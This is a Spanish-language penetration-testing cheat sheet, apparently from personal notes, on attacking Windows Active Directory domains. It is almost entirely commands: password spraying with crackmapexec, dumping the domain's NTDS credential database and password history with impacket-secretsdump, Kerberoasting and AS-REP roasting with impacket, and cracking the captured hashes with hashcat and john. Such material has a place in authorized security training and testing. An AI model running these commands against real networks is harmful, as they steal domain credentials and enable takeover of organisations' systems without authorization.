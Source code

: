 ```
crackmapexec smb IP -u usuarios.txt -p diccionario.txt --local-auth
```

Si pone **Pwned!** es que tiene altos privilegios.

```
crackmapexec smb IP -u usuario -p '1234' --continue-on-success
crackmapexec smb IP -u usuario -p '1234' --pass-pol #política de contraseñas
crackmapexec smb IP -u usuario -p '1234' --users
```

Dumpear la base de datos del dominio.

```
crackmapexec smb IP(AD) -u usuario -p '1234' --ntds
```

La estructura de la respuesta es -> Usuario:ID:LM HASH:NTHASH

Si pone **404ee** en el LM está deshabilitado.

Rompemos las contraseñas creando un diccionario con NTHASH.

{% embed url="https://hashes.com/en/decrypt/hash" %}

Contraseñas previas que se han configurado.

```
impacket-secretsdump -just-dc usuario:password@IP -history -pwd-last-secret
```

No se necesita ser administrador de dominio para realizar un ataque de **Keberoasting**.

```
impacket-GetUserSPNs -dc-ip IP(AD) dominio.com/usuario:'1234' -request
```

Cogemos la contraseña para crackear.

```
hashcat -m 13100(número depende) --force -a 0 hash diccionario.txt
john --format=krb5tgs --wordlist=diccionario.txt hash
```

Lo probamos.

```
crackmapexec smb IP(AD) -u SVC_SQLService -p '1234'
```

## **AS -REP Roasting Attack**

Solo requiere listado de usuarios.

```
impacket-GetNPUsers -dc-ip IP(AD) dominio.com/ -no-pass -userfile users.txt -outfile salida.txt
```

Para crackear la contraseña.

```
hashcat --help | grep AS_REP --> 18200
```
